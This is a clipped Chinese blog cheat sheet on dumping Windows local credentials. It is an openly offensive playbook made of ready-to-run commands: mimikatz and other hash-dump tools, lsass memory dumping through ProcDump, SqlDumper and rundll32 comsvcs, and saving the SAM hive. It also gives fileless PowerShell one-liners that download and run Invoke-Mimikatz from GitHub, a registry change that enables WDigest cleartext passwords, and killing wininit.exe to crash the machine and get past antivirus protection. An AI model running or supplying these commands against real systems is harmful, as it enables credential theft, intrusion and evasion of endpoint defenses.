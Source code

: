 ```yaml
---
title: Windows 本地 hashdump 备忘录
url: https://blog.thekingofduck.com/post/Dumping-Windows-Local-Credentials-Tools/#toc-heading-15
clipped_at: 2024-04-01 16:53:25
category: default
tags: 
 - blog.thekingofduck.com
---
```



# Windows 本地 hashdump 备忘录

市面上可见到的读 Windows 本地密码的大多工具都是变则法子的去读 lsass.exe 这个密码的内存或者 SAM 数据库，然后从里面提取 hash。所以有杀软的情况下读密码这事根本就不是工具免不免杀的问题，而是杀软有没有监控保护 lsass.exe 或 SAM 的问题，所以读本地密码条件可以总结为：

> 能正常访访问 lsass.exe 内存或 SAM 数据库。

### 常见工具

工具仅部分，通过以下操作可一键获取密码。

#### mimikatz

https://github.com/gentilkiwi/mimikatz

```plain
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"  "exit"
```

![](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/1711961605-e78b639443fbad8ad654a5826225d506.png)

#### QuarksPwDump

https://github.com/quarkslab/quarkspwdump

```css
QuarksPwDump.exe -dhl
```

![](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/1711961605-8f1dd7ac7c6998cd63938188c1234dc5.png)

#### wce

https://www.ampliasecurity.com/research/wcefaq.html

```css
wce.exe -w
```

![](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/1711961605-4095cd172ebcbd9d0c8ac871bc24dd85.png)

#### pwdump7

http://www.tarasco.org/security/pwdump\_7/index.html

```css
PwDump7.exe
```

![](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/1711961605-67aa34dcb54cf0f06b878ebf72cf8157.png)

#### LaZagne

https://github.com/AlessandroZ/LaZagne

```css
laZagne_x86.exe windows
```

![](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/1711961605-bd4f2be73852e207f2a8fee2d24b98d9.png)

### lsass 内存 dump

工具仅部分，通过以下操作可先获取到 lsass 内存文件，然后使用 mimikatz 可进一步读取密码。  
参考命令:

```css
mimikatz.exe"sekurlsa::minidump lsass.dmp""sekurlsa::logonPasswords full" "exit"
```

#### SharpDump

https://github.com/GhostPack/SharpDump

```perl
for /f  "tokens=2" %i in ('tasklist /FI "IMAGENAME eq lsass.exe" /NH') do SharpDump.exe %i
```

![](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/1711961605-25fab89c171b55446163c5f67388ba1e.png)

#### ProcDump

https://docs.microsoft.com/en-us/sysinternals/downloads/procdump

```css
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

![](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/1711961605-c7bec31741650cd198a6f3679d0fcb91.png)

#### SqlDumper

https://support.microsoft.com/en-us/help/917825/use-the-sqldumper-exe-utility-to-generate-a-dump-file-in-sql-server

```perl
for /f  "tokens=2" %i in ('tasklist /FI "IMAGENAME eq lsass.exe" /NH') do Sqldumper.exe %i 0 0x01100
```

![](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/1711961605-5e4d63376f4933d9cc7ada7630b7e979.png)

#### rundll32

https://modexp.wordpress.com/2019/08/30/minidumpwritedump-via-com-services-dll/

```perl
for /f  "tokens=2" %i in ('tasklist /FI "IMAGENAME eq lsass.exe" /NH') do rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump %i .\lsass.dmp full
```

![](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/1711961605-57709c6bca1d304b6537eb197d9f2463.png)

### 关于 SAM 数据库

管理员执行:

```css
reg save hklm\sam .\sam.hive&reg save hklm\system .\system.hive
```

然后将两个文件导入 SAMInside 并将 NT-Hash 复制出来去相关网站查询即可。（mimikatz 也可以读）

### 关于无文件加载

```plain
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
```

![](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/1711961605-5ba2053cff23ca2e3e3bb8d351ff6f6e.png)

读一下代码会发现都是 peloader 做的，同理可以把 procdump 做成 psh 实现无文件 dump。

```bash
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/TheKingOfDuck/hashdump/master/procdump/procdump.ps1');Invoke-Procdump64 -Args '-accepteula -ma lsass.exe lsass.dmp'"
```

![](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/1711961605-909538fbcdb04add2586a99934adb9eb.png)

### 关于 2012 以及 win10 之后的机器：

```plain
reg add HKLMSYSTEMCurrentControlSetControlSecurityProvidersWDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

键值为 1 时 Wdigest Auth 保存明文口令，为 0 则不保存明文。修改为重新登录生效。

### 偏激的 bypass 卡巴读密码

卡巴以及小红伞均对 lsass.exe 进行了保护，导致微软出的两款工具以及他自己的 kldumper 都无法用于 dump lsass。但是可以通过制造蓝屏来获取所有内存的文件 MEMORY.DMP 没然后在提出 lsass 进一步读取。

```coffeescript
taskkill /f /im "wininit.exe"
```

可参考: https://www.mrwu.red/web/2000.html

### 总结

bypass av 可以以卡巴为衡量标准，能过卡巴约等于过全部。

所以文件最终文件放在：

https://github.com/TheKingOfDuck/hashdump

